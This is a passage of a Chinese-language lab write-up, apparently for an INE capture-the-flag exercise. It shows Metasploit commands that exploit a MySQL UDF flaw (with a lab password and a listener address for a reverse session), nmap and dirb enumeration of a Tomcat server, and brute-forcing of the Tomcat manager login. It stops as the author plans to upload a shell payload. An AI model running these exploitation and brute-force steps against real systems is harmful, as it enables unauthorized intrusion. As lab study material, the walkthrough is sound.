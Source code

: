 通过google发现存在用户定义函数 (UDF)漏洞，打开msfconsole
```
use exploit/multi/mysql/mysql_udf_payload
set FORCE_UDF_UPLOAD true
set PASSWORD fArFLP29UySm4bZj
set RHOSTS server2.ine.local
set TARGET 1
set LHOST 192.220.184.2
run
session -i 1
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/a21fc00b0a6c4d6fbbc5aa54984a43ef.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/048c4dfa2b244e52a94eb7324e713b6e.png)

成功拿到第二台机子的最高权限，查看flag

![在这里插入图片描述](https://img-blog.csdnimg.cn/71f7f393be4f4d718048a51cab260da0.png)

然后开始枚举第三个网站
```
nmap -A -sS server3.ine.local
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2adf2cbc171343908414338a2bbfa28e.png)

机子开放了8080端口，框架为tomcat，然后枚举一下网站根目录

```
dirb http://server3.ine.local:8080
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/622c8a3f7d1248de95c954c820e2c2f3.png)

发现了一个有趣的目录，我们去浏览器上访问


![在这里插入图片描述](https://img-blog.csdnimg.cn/7224541998cb444abd0970ece4324556.png)

他要求我们登录，我们暴力破解一下看行不行

打开msfconsole
```
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS server3.ine.local
set VERBOSE false
run
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/c57efee963184ec4b6245882a5b0ea4d.png)

成功爆破出密码，然后去登录

![在这里插入图片描述](https://img-blog.csdnimg.cn/603f71922eeb498fb3cf3bcf304132eb.png)

我们可以上传一个paylaod来获得目标靶机的shell
